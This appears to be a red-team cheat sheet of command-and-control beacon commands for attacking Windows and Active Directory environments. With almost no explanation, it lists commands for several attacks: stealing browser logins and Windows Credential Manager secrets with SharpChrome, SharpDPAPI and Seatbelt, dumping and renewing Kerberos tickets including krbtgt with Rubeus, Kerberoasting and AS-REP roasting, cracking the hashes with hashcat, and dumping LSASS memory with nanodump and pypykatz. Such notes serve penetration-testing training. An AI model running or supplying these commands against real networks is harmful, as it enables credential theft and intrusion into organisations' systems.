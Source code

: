 #### OPSEC Safe

Browser credentials
```powershell
execute-assembly C:\Tools\SharpDPAPI\SharpChrome\bin\Release\SharpChrome.exe logins
```

Windows Credential Manager
```powershell
run vaultcmd /listcreds:"Windows Credentials" /all
execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe WindowsVault
```

```powershell
execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe credentials /rpc
```

 Extracting tickets + renewing them
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x6c5b5 /service:krbtgt /nowrap
```

```powershell
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe describe /ticket:doIFq[...snip...]uQ09N

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe renew /ticket:doIFq[...snip...]uQ09N /nowrap
```
 
 Kerberoasting
```powershell
ldapsearch "(&(objectClass=user)(servicePrincipalName=*)(!(userAccountControl:1.2.840.113556.1.4.803:=1048576)))" --attributes samAccountName,servicePrincipalName,objectsid,ntsecuritydescriptor
```

```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /spn:MSSQLSvc/dub-sql-2.dublin.contoso.com /simple /nowrap

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /user:MSSQLSVC /simple /nowrap
```

```powershell
C:\Tools\hashcat.exe -a 0 -m 13100 .\kerb.hash .\example.dict -r .\rules\dive.rule
```

AS-REP Roasting
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asreproast /format:hashcat /nowrap
```

---

Nanodump Adpatix C2
```powershell
nanodump -w C:\Windows\System32\dotnetdmp.tmp --valid

pypykatz lsa minidump dotnetdmp.tmp
```
